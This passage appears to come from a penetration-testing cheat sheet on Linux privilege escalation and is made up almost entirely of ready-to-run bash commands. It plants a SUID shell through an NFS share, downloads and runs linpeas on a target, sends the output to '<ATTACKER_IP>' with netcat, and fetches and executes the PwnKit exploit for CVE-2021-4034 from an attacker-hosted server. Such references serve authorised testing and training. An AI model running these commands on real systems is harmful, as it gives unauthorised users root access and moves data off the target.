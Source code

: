 ```bash

# 4. Set SUID bit on compiled binary
sudo chmod +s /tmp/nfs_mount/shell

# 5. Unmount the share
sudo umount /tmp/nfs_mount

# Exploitation (on Target Machine):
# Log in as normal user and execute SUID binary from share
<SHARE_PATH>/shell
```

### 🔍 Linpeas Enumerator

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
* https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/
* https://gtfobins.github.io/

```bash
# KALI
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
ip a ; python3 -m http.server 8000

# TARGET
cd /tmp
wget http://<IP_ADDR>:8000/linpeas.sh
chmod +x linpeas.sh
REGEXES="0" ./linpeas.sh 2>&1 | tee linpeas_output.txt
```

```bash
# SCP
scp -P <PORT> <USER>@<IP_ADDR>:/tmp/linpeas_output.txt ~/

# NC
nc -l -p <PORT> > ~/linpeas_output.txt
cat /tmp/linpeas_output.txt | nc <ATTACKER_IP> <PORT>
```

### 🚨 CVE-2021-4034 - Pkexec Local Privilege Escalation (privesc)
```bash
# LOCAL: Download and execute the PwnKit privesc
cd /tmp
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
ip a ; python3 -m http.server 8000

# REMOTE: Download and run privesc
curl -o PwnKit http://<KALI_IP>:8000/PwnKit
chmod +x PwnKit
./PwnKit
```
